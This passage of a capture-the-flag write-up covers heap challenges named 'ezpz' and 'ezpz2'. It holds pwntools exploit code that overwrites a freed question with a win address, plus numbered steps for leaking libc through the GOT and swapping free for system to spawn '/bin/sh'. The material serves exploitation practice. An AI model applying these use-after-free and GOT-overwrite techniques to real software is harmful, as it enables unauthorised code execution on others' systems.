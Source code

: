 ```python
delete(1)

# set deleted question
setQuestion(0, 'yeet')

# create new question
create()	# 2

# write win address to it
win = p32(0x08048a5c)
setQuestion(2, win)

# call win
askQuestion(1)

p.interactive()
```

## ezpz2

---

FLAG{REDACTED}

---

_The title is a lie_

A big of a step up from the previous one, this time the print function is not in the heap. That means you cannot decide the function to call. So the first thing to find out it where to write to.  
Also, this time there is no win function..  
Making one of the challenges to find out what to overwrite.

1. Overwrite the pointer to the string with the address of the got (obtained from the binary)
2. Leak a libc address, and calculate offsets of necessary functions from the got.
3. You can find out the exact version of libc used by doing step 2 twice and putting the last 3 (hex) digits of the address into an online database like [libc.nullbyte.cat](https://libc.nullbyte.cat).
4. `free` is the only function that gets called with the string buffer as the first argument, and is also only used in one place (technically 2), so overwrite the address of `free` in the got with `system`
5. Use the previously calculated offsets to make sure that the program doesn't segfault early, by preserving the addresses of the rest of libc
6. Put `/bin/sh\x00` into the string and call `"free"` i.e. `system` with the buffer as the argument (which ask_question does for you)
7. `cat flag`

```python
#!/usr/bin/python3

from pwn import *

#p = process('./ezpz2')
p = remote('plsdonthaq.me', 7002)
#gdb.attach(p)

# create question
def create():
    p.readuntil('choice,')
    p.sendline('c')

# delete question
def delete(index):
    p.readuntil('choice,')
    p.sendline('d')
```